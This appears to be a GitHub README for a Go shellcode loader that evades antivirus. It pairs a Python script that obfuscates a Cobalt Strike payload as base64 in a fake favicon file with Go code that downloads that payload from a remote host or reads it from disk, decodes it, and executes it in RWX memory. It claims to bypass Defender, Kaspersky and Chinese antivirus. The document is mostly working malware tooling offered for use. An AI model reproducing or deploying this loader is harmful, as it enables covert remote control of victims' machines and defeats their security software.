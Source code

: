 # 0x00 generate cobaltstrike shellcode

`Attacks =>> Packages =>> Payload generate =>> Output =>> Raw =>> payload.bin`

# 0x01 replace base64 shellcode

```
import base64
import random
import numpy
import sys

# print len(sys.argv)
# print sys.argv[0]
# print sys.argv[1]

if len(sys.argv) != 2:
    sys.exit("[+] useage: python %s [File: payload.bin]"%sys.argv[0])
else:
    shellcode =  open("payload.bin","rb").read()
    b64shellcode = base64.b64encode(shellcode).decode()
    b64shellcode = b64shellcode.replace("A","#").replace("H","!").replace("1","@").replace("T",")")
    print("[+] b64shellcode= \n" + b64shellcode)
    f = open("favicon.txt","wb")
    f.write(b64shellcode)
    f.close()
```

# 0x02 comiple mian.go

**`go build -ldflags="-w -s -H=windowsgui" shell.go`**


```
package main


import (
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "net/http"
    "os"
    "strings"
    "syscall"
    "unsafe"
    "flag"
)
var (
    kernel32     = syscall.NewLazyDLL("kernel32.dll")
    VirtualAlloc = kernel32.NewProc("VirtualAlloc")
    RtlMoveMemory = kernel32.NewProc("RtlMoveMemory")
)
func runUrl(url string) {
    resp, _ := http.Get(url)
    body, _ := ioutil.ReadAll(resp.Body)
    resp.Body.Close()


    str1 :=strings.Replace(string(body), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
    sDec,_ := base64.StdEncoding.DecodeString(str4)
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}


func ReadFile(filepath string){
    f, err := os.Open(filepath)
    if err != nil {
        fmt.Println("read file fail", err)
    }
    defer f.Close()
 
    fd, err := ioutil.ReadAll(f)
    if err != nil {
        fmt.Println("read to fd fail", err)
    }

    str1 :=strings.Replace(string(fd), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )

    sDec,_ := base64.StdEncoding.DecodeString(str4) //base64解密
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}

func main() {

    var url string
    var code string

    flag.StringVar(&url, "u", "", "url")
    flag.StringVar(&code, "s", "", "shellcode")
    flag.Parse()

    if(len(os.Args) != 3){
        // fmt.Println("Usage:xxx.exe -u http://x.x.x.x/code.txt")
        // fmt.Println("Or xxx.exe -s base64_encode_shellcode")
        os.Exit(0)
    } else if url != "" {
        runUrl(url)
    }else{
        ReadFile(code)
    }
}

```

# 0x03 get session

**shell.exe -u http://172.16.242.1/favicon.ico**

**shell.exe -s payload.txt**

# bypassAV
条件触发式远控 VT 6/70 免杀国内杀软及defender、卡巴斯基等主流杀软
## 原理
https://pureqh.top/?p=5412
## use
将shellcode填至go_shellcode_encode.py生成混淆后的base64 payload<br>
然后将生成的payload填至main.go build("b64shellcode")<br>
将main.go中的url替换为你vbs的某个网页或文本（局域网网页同样可以，但是需要程序可以正常使用时此网页需要可以访问）<br>
编译：go build -ldflags="-w -s -H=windowsgui"<br>
